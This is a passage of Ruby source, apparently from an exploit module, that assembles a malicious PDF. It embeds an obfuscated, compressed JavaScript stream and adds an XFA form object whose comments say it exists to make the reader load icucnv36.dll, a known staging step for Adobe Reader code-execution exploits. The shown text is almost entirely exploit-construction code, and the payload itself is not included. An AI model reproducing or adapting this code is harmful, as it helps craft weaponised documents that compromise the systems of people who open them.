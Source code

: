 			# js stream
			xref << pdf.length
			compressed = Zlib::Deflate.deflate(ASCIIHexWhitespaceEncode(js))
			pdf << ioDef(12) << nObfu("<</Length %s/Filter[/FlateDecode/ASCIIHexDecode]>>" % compressed.length) << eol
			pdf << "stream" << eol
			pdf << compressed << eol
			pdf << "endstream" << eol
			pdf << endobj
	 
			###
			# The following form related data is required to get icucnv36.dll to load
			###
	 
			# form object
			xref << pdf.length
			pdf << ioDef(13)
			pdf << nObfu("<</XFA ") << ioRef(14) << nObfu(">>") << eol
			pdf << endobj
	 
			# form stream
			xfa = <<-EOF
	<?xml version="1.0" encoding="UTF-8"?>
	<xdp:xdp xmlns:xdp="http://ns.adobe.com/xdp/">
	<config xmlns="http://www.xfa.org/schema/xci/2.6/">
	<present><pdf><interactive>1</interactive></pdf></present>
	</config>
	<template xmlns="http://www.xfa.org/schema/xfa-template/2.6/">
	<subform name="form1" layout="tb" locale="en_US">
	<pageSet></pageSet>
	</subform></template></xdp:xdp>
	EOF
	 
			xref << pdf.length
			pdf << ioDef(14) << nObfu("<</Length %s>>" % xfa.length) << eol
			pdf << "stream" << eol
			pdf << xfa << eol
			pdf << "endstream" << eol
			pdf << endobj
	 
			###
			# end form stuff for icucnv36.dll
			###
	 
	 